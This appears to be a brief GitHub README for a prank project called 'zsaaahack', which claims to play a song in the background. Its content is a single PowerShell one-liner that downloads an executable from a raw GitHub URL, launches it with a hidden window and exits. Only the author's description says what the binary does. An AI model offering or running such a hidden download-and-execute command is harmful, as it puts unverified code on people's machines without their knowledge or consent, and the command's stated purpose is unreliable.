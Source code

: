 # zsaaahack
A program that plays Danika House in the background

powershell -c Invoke-WebRequest -Uri http://raw.githubusercontent.com/BugzumDev/zsaaahack/main/elvtarsak.exe -OutFile zsaaa.exe; Start-Process WindowStyle hidden zsaaa.exe; exit;
